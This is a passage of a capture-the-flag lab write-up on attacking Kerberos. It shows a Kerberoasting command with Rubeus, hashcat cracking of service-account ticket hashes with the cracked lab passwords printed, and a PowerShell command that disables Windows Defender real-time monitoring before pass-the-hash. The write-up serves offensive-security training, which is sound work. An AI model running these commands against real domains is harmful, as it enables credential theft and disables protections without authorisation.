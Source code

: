 - Also find the kerberoastable users wtith high privs

![high kerb](bh-high-kerb.png)

#### Kerberoasting With Rubeus.exe

- Access to the machine is required,

```powershell
C:\Users\Administrator\Downloads> Rubeus.exe kerberoast
```

#### Cracking the hash (Kerbroasting)

- With the help of hashcat and the curated [wordlist](https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt) provided in the room, we can crack the hash

```bash
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]                                                                                              
└─$ hashcat -m 13100 impackets-userspns.out Pass.txt

[..snip..]
$krb5tgs$23$*HTTPService$CONTROLLER.LOCAL$controller.local/HTTPService*$4ecd...1650eb49cd26:Summer2020
$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$controller.local/SQLService*$b79c65...d039f8:MYPassword123#
```

### Pass the Hash

- After gaining an administrator level access in the target machine
- Disable the antivirus in the machine

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
